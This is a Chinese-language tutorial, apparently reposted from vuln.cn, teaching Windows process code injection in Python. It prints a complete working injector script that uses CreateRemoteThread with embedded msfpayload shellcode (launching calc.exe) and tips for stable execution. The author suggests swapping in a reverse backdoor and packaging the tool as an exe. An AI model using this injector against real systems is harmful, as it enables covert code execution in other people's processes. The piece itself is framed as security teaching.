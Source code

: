 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.vuln.cn](http://www.vuln.cn/6448)  

* * *

本文为《小学生科普系列》的番外篇，本系列面向小学生，纯科普，大牛莫喷~

教程中所有内容仅供学习研究，请勿用于非法用途，否则…. 我也帮不了你啊…

说起注入，大家第一印象可能还习惯性的停留在 sql 注入，脚本注入（XSS）等。今天 light 同 (jiao) 学(shou)带大家从 web 端回到操作系统，一起探讨 Windows 下的经典注入——内存注入，使用 python 编写一个简单的代码注入程序。

内存注入常见的方法有 dll 注入和代码注入。Dll 注入通俗地讲就是把我们自己的 dll 注入到目标进程的地址空间内，“寄生”在目标进程里执行。Dll 注入需要另外一个 “推进器” 程序将我们的 “寄生虫”dll“注” 进目标进程中。

代码注入和 dll 注入的思路一致，只是 “寄生虫” 代码与 “推进器” 代码在同一个程序里面。

Dll 文件: windows 动态链接库。在 Windows 中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即 DLL 文件，放置于系统中。当我们执行某一个程序时，相应的 DLL 文件就会被调用。

这次我们的实验选取 “代码注入” 这一课题。废话不多说，开始动手！

* * *

写 python 的小程序，light 同学推荐性感的 Sublime text2 +JEDI（python 自动补全插件）。

首先安装 sublime text2 的 “插件管理” 插件 package control：

打开 sublime 后，组合键 “ctrl+~” 调出控制台，将以下代码粘贴进命令行中并回车：

```
#!python
import urllib2,os;pf='Package Control.sublime-package';ipp=sublime.installed_packages_path();os.makedirs(ipp) if not os.path.exists(ipp) else None;open(os.path.join(ipp,pf),'wb').write(urllib2.urlopen('http://sublime.wbond.net/'+pf.replace(' ','%20')).read())
```

安装完毕后重启 sublime text2，输入 Ctrl + Shift + P 然后输入 Install Package

![](http://www.vuln.cn/wp-content/uploads/20150211/2015021110461871586.png)

然后输入 “jedi”，回车安装。

![](http://www.vuln.cn/wp-content/uploads/drops/20141229/2014122903513995261file00027.png)

磨刀不误砍柴工，装好插件，我们开始正式撸代码。

* * *

原料：win7、python27、sublime text2、msfpayload

必备技能：windows api 基础、python 基础、metasploit 基础（这个还不会的赶快去这里补习！http://zone.wooyun.org/content/17377）

这次的注入代码主要借助了 python 的 ctypes 库，这个库使得 python 可以直接调用 windows API，非常方便。“为什么不用 c 或者 c++？”，因为我手头边只有一本《gray hat python》。

```
#!python
#-*- coding:utf-8 -*-
#导入sys库以及ctypes库
import sys
from ctypes import *

PAGE_EXECUTE_READWRITE  =  0x00000040
PROCESS_ALL_ACCESS  =  ( 0x000F0000 | 0x00100000 | 0xFFF )
VIRTUAL_MEM  =  ( 0x1000 | 0x2000 )

kernel32  =  windll.kernel32
pid  =  int(sys.argv[1])

if not sys.argv[1]:
    print "Code Injector: ./code_injector.py <PID to inject>"
    sys.exit(0)

# shellcode使用msfpayload生成的，我这里是一个计算器，当然你可以直接生成一个后门程# 序。生成代码：msfpayload  windows/exec  CMD = calc.exe  EXITFUNC=thread  C　
shellcode = ("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d"
"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63"
"\x2e\x65\x78\x65\x00")

code_size = len(shellcode)

# 获取我们要注入的进程句柄
h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) )

if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid
    sys.exit(0)

# 为我们的shellcode申请内存
arg_address = kernel32.VirtualAllocEx( h_process, 0, code_size, VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)

# 在内存中写入shellcode
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))

# 创建远程线程，指定入口为我们的shellcode头部
thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process,None,0,arg_address,None,0,byref(thread_id)):
    print "[*] Failed to inject shellcode. Exiting."
sys.exit(0)

print "[*] Remote thread successfully created with a thread ID of: 0x%08x" % thread_id.value
```

句柄：句柄与普通指针的区别在于，指针包含的是引用对象的内存地址，而句柄则是由系统所管理的引用标识，该标识可以被系统重新定位到一个内存地址上。这种间接访问对象的模式增强了系统对引用对象的控制。

可以看到，之所以能进行内存注入，主要归功于 windows 开放的一个关键 api：CreateRemoteThread。这个函数允许我们创建一个在其它进程地址空间中运行的线程 (也称：创建远程线程)。

而整个注入过程可以划分为三个步骤：获取目标进程句柄，把 shellcode 写入内存，创建远程线程。这也是内存注入的基本原理和机制。

在使用 msfpayload 生成 shellcode 时，有两个坑需要大家注意。

坑一： Msfpayload 生成 shellcode 时，不能使用 msfencode，有些资料告诉我们生成 shellcode 时要在后面加上 msfencode -b ‘\x00’ 来避免空字，但是 msfencode 一旦使用，默认就会使用 x86/shikata_ga_nai 等编码器对 shellcode 编码一次。这里 light 同学推荐大家用 msfpayload xxx C 的方式来生成纯净的 shellcode。

坑二：

msfpayload windows/exec CMD = calc.exe C　

直接生成的 shellcode 执行结果是宿主 100% 崩溃，简直就是进程杀手。我在测试过程中，把用来测试的百度云管家崩的天昏地暗。这个坑花了好久才跳出来。

后来号基友用 ollydbg 调试发现 shellcode 退出时直接 exit process，把整个进程都结束了。

![](http://www.vuln.cn/wp-content/uploads/20150211/2015021110461995881.png)

在基友热心帮助下，再参考 msfpayload 官方文档后顿悟，果断修改 EXITFUNC 的值为 thread（默认为 process）：

![](http://www.vuln.cn/wp-content/uploads/20150211/2015021110462064801.png)

测试成功！

![](http://www.vuln.cn/wp-content/uploads/20150211/2015021110462049636.png)

最后，我们可以把这个 python 脚本用 py2exe 打包成 exe 可执行文件。有兴趣的话还可以加上 UI，做成一个可以定制不同注入类型（dll 或代码注入）、注入代码（反向后门或恶作剧程序）的程序。

任何问题或者好的建议请骚扰：[[email protected]](http://www.vuln.cn/cdn-cgi/l/email-protection)

参考文档：

《gray hat python》

http://www.offensive-security.com/metasploit-unleashed/Msfpayload

http://www.google.com

![](http://www.vuln.cn/wp-content/themes/wpgo/caches/c3d4f52f50219a982b96dcfa62ef90aa.jpg)

**本文作者**：[Sofia](http://www.vuln.cn/ "查看Sofia发布的所有文章")

**版权声明**：除非本文有注明出处，否则转载请注明本文来自 http://www.vuln.cn

**本文地址**：http://www.vuln.cn/6448
